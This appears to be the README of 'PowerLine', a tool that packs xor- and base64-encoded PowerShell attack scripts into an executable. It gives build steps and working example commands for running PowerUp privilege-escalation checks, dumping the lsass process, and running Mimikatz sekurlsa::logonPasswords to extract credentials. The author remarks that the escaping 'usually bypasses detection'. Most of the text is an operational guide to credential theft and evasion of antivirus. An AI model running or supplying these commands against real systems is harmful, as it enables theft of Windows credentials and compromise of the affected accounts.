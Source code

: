 # PowerLine

Download the Repo

Run the build.bat file

Update the UserConf.xml document to contain the URLs of the scripts that you'd like to include (examples shown)

Run the PLBuilder.exe file

The PowerLine.exe program should now be created and contains embedded, xor-encoded, base64-encoded versions of all of the scripts that you specified

Example Usage:

//Shows scripts that are currently embedded in the program

PowerLine.exe -ShowScripts

//Run Invoke-AllChecks from the PowerUp script

PowerLine.exe PowerUp "Invoke-AllChecks"

//Get a dump of the lsass process. Must run as an admin

PowerLine.exe Out-Minidump "Get-Process lsass | Out-Minidump"

//Run mimikatz against the dump file created by the Out-Minidump command to extract creds. lsass_dump_name.dmp will be the name generated by Out-Minidump

//Yes, it's hellacious escaping but it works and usually bypasses detection =)

PowerLine.exe Invoke-Mimikatz "Invoke-Mimikatz -Command \"`\"sekurlsa::minidump lsass_dump_name.dmp`\" `\"sekurlsa::logonPasswords`\"\""
